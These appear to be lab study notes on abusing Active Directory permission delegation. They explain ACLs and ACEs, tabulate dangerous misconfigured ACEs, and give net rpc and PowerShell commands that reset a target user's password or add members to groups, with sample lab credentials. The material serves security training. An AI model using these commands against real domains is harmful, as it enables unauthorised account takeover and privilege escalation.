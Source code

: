 
### What is Permission Delegation in AD?

Active Directory allows administrators to **delegate specific permissions** or privileges to other users or groups so they can perform certain tasks without giving them full admin rights.

**Example:**

- Imagine a company with 50,000 employees.
- Only 3 people have Domain Admin (DA) credentials, which are very powerful.
- These 3 can't handle all password reset requests.
- So, the company delegates the ability to reset passwords to the Helpdesk team.
- The Helpdesk team can now reset passwords — but only because they have **delegated permission** to do that specific task, not full admin rights.

**ACL** = Full list of permissions on a user, group, or computer.

**ACE** = Each individual permission (like Reset Password, Add Member, etc.)

### Real Example (Shared Folder):

- **ACL** = somefolder.google.com
    - Alice: Edit
    - Bob: View
    - Charlie: No access
- **Each line** above = 1 **ACE**

### Examples of Dangerous Misconfigured ACEs

| ACE Type | What it allows | How it can be abused |
| --- | --- | --- |
| **ForceChangePassword** | Change a user's password without knowing old one | Reset passwords of privileged users (like Domain Admins) |
| **AddMembers** | Add users/computers to a group | Add attacker accounts to powerful groups |
| **GenericAll** | Full control over the object | Change passwords, add to groups, register services |
| **GenericWrite** | Change non-protected properties | Change logon scripts to run malicious code |
| **WriteOwner** | Change the owner of the object | Gain ownership and then full control |
| **WriteDACL** | Modify the ACLs themselves | Grant self full control over an object |
| **AllExtendedRights** | Perform extended actions like force password reset | Similar to ForceChangePassword but more broad |

### Exploit Commands for Common AD Permission Delegation ACEs

### 1. **`GenericAll` — Full Control**

If `UserA` has `GenericAll` over `UserB`, `UserA` can:

- Reset `UserB`'s password
- Add/remove `UserB` to/from groups
- Modify any attribute of `UserB`
- Impersonate `UserB`

**Example Exploit:**

```bash
# Reset password using net rpc password
net rpc password "TargetUser" "NewPassword123!" -U "Domain/UserA%UserAPassword" -S <DomainController>

# Example:
net rpc password "SHAWNA_BRAY" "NewPassword123@" -U "THM.CORP/TABATHA_BRITT%12345679" -S "haystack.thm.corp"
```

**Or PowerShell (if available):**

```powershell
Set-ADAccountPassword -Identity "TargetUser" -Reset -NewPassword (ConvertTo-SecureString "NewPassword123!" -AsPlainText -Force)
Add-ADGroupMember -Identity "TargetGroup" -Members "TargetUser"
# Other modifications via Set-ADUser or similar cmdlets
```

### 2. **`ForceChangePassword` — Password Reset**

`UserA` can reset `UserB`'s password without knowing old password.

**Exploit Command (same as above):**

```bash
net rpc password "TargetUser" "NewPassword123!" -U "Domain/UserA%UserAPassword" -S <DomainController>

# Example:
net rpc password "SHAWNA_BRAY" "NewPassword123@" -U "THM.CORP/TABATHA_BRITT%12345679" -S "haystack.thm.corp"
```

Or PowerShell:

```powershell

Set-ADAccountPassword -Identity "TargetUser" -Reset -NewPassword (ConvertTo-SecureString "NewPassword123!" -AsPlainText -Force)
```
